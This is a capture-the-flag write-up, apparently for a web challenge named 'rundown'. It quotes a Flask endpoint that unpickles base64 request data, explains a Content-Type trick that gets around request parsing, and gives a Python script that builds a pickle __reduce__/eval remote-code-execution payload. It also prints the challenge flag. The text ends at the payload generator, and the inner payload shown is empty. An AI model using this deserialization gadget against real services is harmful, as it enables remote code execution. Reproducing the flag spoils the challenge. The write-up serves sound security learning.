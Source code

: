 Flag: ctf{aaf15cacfba615d51372386909c4771f0836284ad1a539bcef49201c660631ed}

## <a name="rundown"></a> rundown

#### Description
>A rundown, informally known as a pickle or the hotbox, is a situation in the game of baseball that occurs when the baserunner is stranded between two bases, also known as no-man's land, and is in jeopardy of being tagged out." ... if you stopped in the first part of the definition you are one of ours.
>
>Flag format: ctf{sha256} Goal: You have to discover a vulnerability in this simple web application and recover the flag.

### Solution
The page displays `"APIv2 @ 2020 - You think you got methods for this?"`. Moving to Burp and making a POST request to this address shows a debug error page powered by `Werkzeug`.
Reading the error we can see this:

```python
@app.route("/", methods=["POST"])

def newpost():

  picklestr = base64.urlsafe_b64decode(request.data)

  if " " in picklestr:

    return "The ' ' is blacklisted!"

  postObj = cPickle.loads(picklestr)

  return ""
```

So, we need to exploit a pickle deserialization. I had to run a copy of the endpoint locally to figure out why my attempts were not working. The field `request.data` will have the value sent in body only if the value from `Content-Type` is not supported. I changed the value to `application/testing` and now the `request.data` contained what it was in the body.

I used the next script to get a payload that I can send:

```python
import base64
import cPickle

inner_payload = ''

class RCE(object):
    def __reduce__(self):
        return (eval, (inner_payload,))

print base64.b64encode(cPickle.dumps(RCE())) # print encoded pickled instance
```
